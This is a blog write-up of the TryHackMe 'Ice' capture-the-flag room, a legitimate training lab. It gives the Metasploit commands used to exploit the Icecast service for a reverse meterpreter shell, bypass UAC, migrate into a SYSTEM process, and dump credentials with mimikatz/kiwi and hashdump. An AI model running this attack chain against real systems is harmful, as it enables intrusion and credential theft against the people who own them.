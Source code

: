 ```yaml
---
title: "Ice"
date: 2025-06-30
draft: false
summary: "Writeup for Ice CTF challenge on TryHackMe."
tags: ["windows", "rce", "hash crack"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/ice/cover.webp"
  caption: "Ice TryHackMe Challenge"
  alt: "Ice cover"
platform: "TryHackMe"
---
```


Deploy & hack into a Windows machine, exploiting a very poorly secured media server.
<!--more-->
To access the machine, click on the link given below:
- https://tryhackme.com/room/ice

## Reconnaissance

I performed an **nmap** aggressive scan on the target to identify open ports and the services running on them.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN ice.nmap
```

| **PORT**    | **SERVICE** |
| ----------- | ----------- |
| 135         | rpc         |
| 139         | netbios     |
| 445         | smb         |
| 3389        | rdp         |
| 5357        | winrm       |
| 8000        | http        |
| 49152-49159 | rpc         |
| 49166       | rpc         |

![](https://cdn.ziomsec.com/ice/1.webp)

![](https://cdn.ziomsec.com/ice/2.webp)

## Initial Foothold

The **nmap** scan revealed an interesting service running on port 8000 so I accessed it.

![](https://cdn.ziomsec.com/ice/3.webp)

The room had the following link for reference:
- https://www.cvedetails.com/cve/CVE-2004-1561/

![](https://cdn.ziomsec.com/ice/4.webp)

The **Icecast** service running on port 8000 was most likely vulnerable to code execution. **Metasploit** contained an exploit that could be used for this. So I started the **metasploit** framework and selected the appropriate exploit.

```shell
msfdb run
use exploit/windows/http/icecast_header
```

I configured the required options and ran the exploit to get a reverse meterpreter shell.

![](https://cdn.ziomsec.com/ice/5.webp)

## Privilege Escalation

I used the `local_exploit_suggester` post module to look for privilege escalation vectors.

```shell
use post/multi/recon/local_exploit_suggestor
set session 1
run
```

![](https://cdn.ziomsec.com/ice/6.webp)

I then used a privilege escalation module and ran it to escalate my privilege.

```shell
use exploit/windows/local/bypassuac_eventvwr
```

![](https://cdn.ziomsec.com/ice/7.webp)

I was still running as Dark user but had admin privileges.

![](https://cdn.ziomsec.com/ice/8.webp)

![](https://cdn.ziomsec.com/ice/9.webp)

I then listed running processes in the target and found **spoolsv** to be running as NT Authority.

```shell
ps
```

![](https://cdn.ziomsec.com/ice/10.webp)

I migrated to the process and got NT Authority access.

```shell
migrate 1392
```

![](https://cdn.ziomsec.com/ice/11.webp)

I then loaded **mimikatz** using the **kiwi** extension of **metasploit**.

```shell
load kiwi
creds_all
```

![](https://cdn.ziomsec.com/ice/12.webp)

I also dumped the Administrator hash using the **hashdump** command in meterpreter.

```shell
hashdump
```

![](https://cdn.ziomsec.com/ice/13.webp)

That's it from my end, until next time :)

---
